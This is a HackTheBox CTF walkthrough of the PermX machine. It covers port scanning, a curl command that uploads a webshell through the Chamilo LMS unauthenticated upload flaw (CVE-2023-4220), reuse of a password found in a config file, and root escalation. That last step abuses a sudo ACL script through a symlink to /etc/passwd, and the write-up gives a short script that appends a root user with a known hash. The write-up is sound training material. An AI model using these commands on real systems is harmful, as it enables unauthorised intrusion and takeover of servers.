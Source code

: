 --------------------

### CTF: HACKTHEBOX
### LAB: PERMX

--------------------

![image](https://github.com/user-attachments/assets/75d9e644-9cab-4a9c-9ad7-835f15977ac6)

--------------------

### RECONNAISSANCE

- Rustscan's output

       ❯ rustscan -a 10.10.11.23 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.11.23:22
      Open 10.10.11.23:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 10:18 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Initiating Ping Scan at 10:18
      Scanning 10.10.11.23 [2 ports]
      Completed Ping Scan at 10:18, 0.21s elapsed (1 total hosts)
      Initiating Connect Scan at 10:18
      Scanning permx.htb (10.10.11.23) [2 ports]
      Discovered open port 80/tcp on 10.10.11.23
      Discovered open port 22/tcp on 10.10.11.23
      Completed Connect Scan at 10:18, 0.21s elapsed (2 total ports)
      Initiating Service scan at 10:18
      Scanning 2 services on permx.htb (10.10.11.23)
      Completed Service scan at 10:18, 6.81s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.11.23.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 7.61s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 3.17s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Nmap scan report for permx.htb (10.10.11.23)
      Host is up, received conn-refused (0.21s latency).
      Scanned at 2024-09-03 10:18:10 EDT for 18s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
      |   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
      80/tcp open  http    syn-ack Apache httpd 2.4.52
      |_http-server-header: Apache/2.4.52 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: POST OPTIONS HEAD GET
      |_http-title: eLEARNING
      Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
      
      NSE: Script Post-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 10:18
      Completed NSE at 10:18, 0.00s elapsed
      Read data files from: /usr/bin/../share/nmap
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 20.72 seconds

- Subdomain enumeration with ffuf spots `lms`,we don't need to check `www` it is just the normal `permx.htb` page

![image](https://github.com/user-attachments/assets/d0aa315e-6154-4454-902b-a92b7a6d86f5)

- Subdomain `lms.permx.htb` hosts a learning management portal `Chamilo`

![image](https://github.com/user-attachments/assets/41ce957a-202a-4200-861b-8ae530530ff5)

- Chamilo is vulnerable to unauthenticated file upload as explained in this [github repo](https://github.com/dollarboysushil/Chamilo-LMS-Unauthenticated-File-Upload-CVE-2023-4220)

--------------------------

### Exploiting Chamilo with curl

- Php page `/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported` allows us to upload any file type, we can upload a webshell
to execute commands

- I uploaded the file with curl

      ❯ curl -F "bigUploadFile=@<shell filename>" "http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
      The file has successfully been uploaded.%

- Access your web shell at route `/main/inc/lib/javascript/bigupload/files/[filename]`

![image](https://github.com/user-attachments/assets/96ad56c7-1103-4f1d-8139-609a243ac5e8)

- Shell access

![image](https://github.com/user-attachments/assets/6ce94f61-5a54-44cb-880b-7555fe3c87ee)
 
### USER MTZ

- I ran linpeas and discovered a password in a db config file. I was able to login to user `mtz` with the password

![image](https://github.com/user-attachments/assets/87932ed3-46d3-4532-88c6-c5d46198159c)

- User `mtz` access

![image](https://github.com/user-attachments/assets/ad7c7cca-a266-4708-8aa3-089ef80f3711)

---------------------

### PRIVESC with SETFACL

- I ran `sudo -l` and noticed a rule that user `mtz` can run a sh script `/opt/acl.sh` as root without passwd

![image](https://github.com/user-attachments/assets/7f748f6b-1d7e-439f-8d01-d334b46c64a2)

### Acl.sh

- The script's usage syntax is `acl.sh [user] [perm] [file]`
- The target file must be in `/home/mtz/*` file directory and must not contain `..` to prevent path traversal.

      if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
        /usr/bin/echo "Access denied."
        exit 1
- Then,this code checks if it is a file

        # Check if the path is a file
      if [ ! -f "$target" ]; then
          /usr/bin/echo "Target must be a file."
          exit 1
      fi
- Then, it runs `setfacl` to grant a user specific permissions in respect to a file.

      /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

----------------------

### Exploiting the ACL script

- We can exploit this by creating symbolic link of `/etc/passwd` in mtz's directory.After creating the symbolic link wiith write access to `/etc/passwd`,
we can edit and add a new user hash with root privileges.

![image](https://github.com/user-attachments/assets/57074117-d2e1-42fb-a2a7-8ee866fc06fd)

- We will copy this root hash to password to the passwd symbolic link,you can generate an hash with `openssl passwd [password]`.
This hash's password is `password123`.

      sensei:$1$1YY732V9$Irh.HtaGlscLmIz6SLQgM/:0:0:root:/root:/bin/bash

- Editing the passwd file

![image](https://github.com/user-attachments/assets/8e726103-03c1-490d-b623-d96d97c567dc)

- It reflects in `/etc/passwd`

![image](https://github.com/user-attachments/assets/93062d63-b64a-420f-9097-b24c94ce3bbb)

- You can automate it with this

       ln -s /etc/passwd ~/passwd
       sudo -u root /opt/acl.sh mtz rwx /home/mtz/passwd
       echo "sensei:\$1\$1YY732V9\$Irh.HtaGlscLmIz6SLQgM/:0:0:root:/root:/bin/bash" >> /home/mtz/passwd
       /usr/bin/echo "enter 'password123'"
       su sensei


- Access to user `sensei`

![image](https://github.com/user-attachments/assets/d1769749-3965-4804-a021-3b0962f6ed38)

- Root

![image](https://github.com/user-attachments/assets/4150d4c0-7d05-4ee1-a0da-9153e2b2866a)

-----------------------

### THANKS FOR READING!!!!

------------------------

### REFERENCES:

- [Chamilo](https://github.com/dollarboysushil/Chamilo-LMS-Unauthenticated-File-Upload-CVE-2023-4220)

-------------------------


  




